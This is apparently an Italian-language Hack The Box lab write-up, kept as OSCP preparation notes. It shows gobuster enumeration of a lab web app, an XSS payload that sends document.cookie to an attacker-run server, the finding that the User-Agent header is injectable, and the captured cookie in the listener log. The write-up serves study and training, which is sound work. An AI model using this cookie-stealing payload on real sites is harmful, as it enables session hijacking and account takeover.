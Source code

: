 ```shell-session
┌──(kali㉿kali)-[~/htb]
└─$ gobuster dir -u http://10.10.11.8:5000 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.8:5000
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/support              (Status: 200) [Size: 2363]
/dashboard            (Status: 500) [Size: 265]
```

Troviamo `/support` e `dashboard`
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/Haedless1.png)

Ho cercato online come rubare i cookie usando XSS e ho trovato [questa pagina](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e) dove vedo quanto segue: 
>- Cookie Stealing
  (Note: HttpOnly should not be enabled/present in cookie header)
  `<script>var i=new Image(); i.src="====[http://10.10.14.8/?cookie=](http://10.10.14.8/?cookie=)===="+btoa(document.cookie);</script>`
  Here we have used btoa() method for converting the cookie string into base64 encoded string.

Seguendo quanto riportato dell'articolo tiriamo su un server python per la cattura del cookie.


```
┌──(root㉿kali)-[/home/kali]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Dopo varie prove troviamo che il campo vulnerabile alla XSS è `User-Agent`

```
┌──(root㉿kali)-[/home/kali]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.8 - - [06/Jun/2024 22:53:19] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -
```

Come suggeriva l'articolo di medium il cookie che ricaviamo e codificato in base64 non ci resta che decodificarlo 
